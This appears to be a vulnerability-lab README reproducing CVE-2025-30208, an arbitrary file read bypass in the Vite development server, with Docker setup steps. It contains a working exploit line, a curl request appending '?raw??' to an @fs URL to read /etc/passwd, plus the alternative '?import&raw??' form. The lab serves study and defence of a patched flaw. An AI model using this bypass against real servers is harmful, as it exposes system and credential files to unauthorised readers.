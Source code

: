 # Vite Development Server Arbitrary File Read Bypass (CVE-2025-30208)

[中文版本(Chinese version)](README.zh-cn.md)

Vite is a modern frontend build tool that provides a faster and leaner development experience for modern web projects. It consists of two major parts: a dev server with Hot Module Replacement (HMR) capability, and a build command that bundles your code with Rollup.

In versions of Vite before 6.2.3, 6.1.2, 6.0.12, 5.4.15, and 4.5.10, the `server.fs.deny` feature, which is designed to restrict access to files outside of Vite's serving allow list, can be bypassed. By appending `?raw??` or `?import&raw??` to URLs using the `@fs` prefix, an attacker can read arbitrary files on the filesystem, as long as the Node.js process has permission to read them.

This vulnerability occurs because trailing separators such as `?` are removed in several places during request processing, but are not accounted for in query string regular expressions, leading to the security check bypass.

This vulnerability is a bypass for the patch of [CNVD-2022-44615](../CNVD-2022-44615/README.md).

References:

- <https://github.com/vitejs/vite/security/advisories/GHSA-x574-m823-4x7w>
- <https://nvd.nist.gov/vuln/detail/CVE-2025-30208>

## Environment Setup

Execute the following command to start a Vite 6.2.2 development server:

```
docker compose up -d
```

After the server starts, you can access the Vite development environment at `http://your-ip:5173`.

> Note: The development server of the old version of Vite defaults to port 3000, while the new version defaults to port 5173, please pay attention to the difference.

## Vulnerability Reproduction

The vulnerability allows an attacker to read arbitrary files on the server's filesystem by bypassing the `server.fs.deny` protection.

First, try to access `/etc/passwd` using the standard `@fs` prefix to verify that normal access to files outside the allowed directories is properly blocked:

![](1.png)

You should receive a 403 Forbidden response because this path is outside of Vite's allowed serving list.

However, by appending `?raw??` to the URL, you can bypass this restriction and retrieve the contents of the file:

```
curl "http://your-ip:5173/@fs/etc/passwd?raw??"
```

This request will return the contents of the `/etc/passwd` file:

![](2.png)

Alternatively, you can also use the `?import&raw??` query parameters to achieve the same result.
